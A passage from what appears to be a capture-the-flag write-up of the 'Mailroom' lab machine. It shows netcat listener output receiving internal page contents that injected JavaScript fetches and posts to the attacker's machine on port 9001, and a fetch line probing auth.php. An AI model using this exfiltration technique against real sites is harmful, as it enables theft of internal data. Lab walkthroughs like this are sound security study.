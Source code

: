 In this script, we have a GET request pointed at staff-review-panel, then the content is sent back to our attacking machine, port 9001 as a POST.

```bash
$ nc -vlp 9001
listening on [any] 9001 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.11.209] 33536
POST / HTTP/1.1
Host: 10.10.14.35:9001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/
Content-Type: text/plain;charset=UTF-8
Content-Length: 2399
Origin: http://127.0.0.1
Connection: keep-alive

Resp Code: 200
Page Source:

<!DOCTYPE html>
<html lang="en">
<...SNIP...>
```

Examining the source code a little we can find that it actually matches the gitea staffroom code. Perhaps we can access auth.php from here?

```js
fetch_req.open("GET", "http://staff-review-panel.mailroom.htb/auth.php", false);
fetch_req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
fetch_req.send();
```

We are able to access:
```bash
$ nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.11.209] 58294
POST / HTTP/1.1
Host: 10.10.14.35:9001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/
Content-Type: text/plain;charset=UTF-8
Content-Length: 89
Origin: http://127.0.0.1
Connection: keep-alive

Resp Code: 400
Page Source:
{"success":false,"message":"Email and password are required"}
```
